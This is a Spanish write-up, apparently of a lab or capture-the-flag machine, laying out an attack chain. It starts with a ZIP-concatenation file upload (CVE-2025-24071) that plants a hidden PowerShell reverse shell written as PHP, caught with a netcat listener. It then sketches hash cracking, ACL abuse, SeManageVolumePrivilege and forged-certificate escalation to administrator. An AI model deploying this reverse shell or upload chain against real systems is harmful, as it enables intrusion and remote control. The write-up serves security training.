








---


El camino Tomado es:

- ZIP concatenation
- ACL Abuse
- SeManageVolumePrivilege
- Golden Certificate

El posible camino original encontrado:

- ZIP concatenation
- ACL Abuse
- PCAP Analisys
- ESC3
- SeManageVolumePrivilege
- Golden Certificate

---


# Enumeración inicial


## Puertos




## Web




# Acceso

PASOS para explotar `CVE-2025-24071`:

1. Crear `.pdf` vacio: `touch false.pdf`
2. Comprimir: `zip begin.zip false.pdf`
3. crear `.php` malicioso `malicious_file/shell.php`:

```php
<?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object System.Net.Sockets.TCPClient('TU_IP',4444); \$stream = \$client.GetStream(); [byte[]]\$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){; \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>
```

4. combinar ambos zip:  `cat benign.zip malicious.zip > combined.zip`
5. SUBIR `combined.zip`
6. En la respuesta, buscar el lugar donde se ha subido y cambiar el archivo `false.pdf` por `malicious_files/shell.php` junto a `nc -lnvp 4444`



Y voilá!


Enumerando, llegamos a encontrar credenciales en texto plano de lo que parede una BBDD.


Abrimos la BBDD y sacamos los hashes:



Guardamos cada uno en un archivo `.hash` diferente e intentamos crackearlo:


Sincronizamos con el DC y ejecutamos bloodhound:



# Movimiento lateral y Escalada

En bloodhound podemos ver que poseemos `GenericALL` sobre `ryan.k`.




Pero tambien podemos ver si analizamos correctamente, que en caso de añadir a `sara.b` al grupo `IIS_IUSRS`, conseguimos `SeImpersonatePriv`:


Sacamos el NT hash de `Ryan.k`:


Sacamos un certificado después de darnos acceso a `C:\` haciendo uso de `SeManageVolumeExploit.exe`:


Modificamos el certificado para que sea valido para el `administrador` y poder sacar su NTLM:


Sacamos las Flags:





HAPPY HACKING


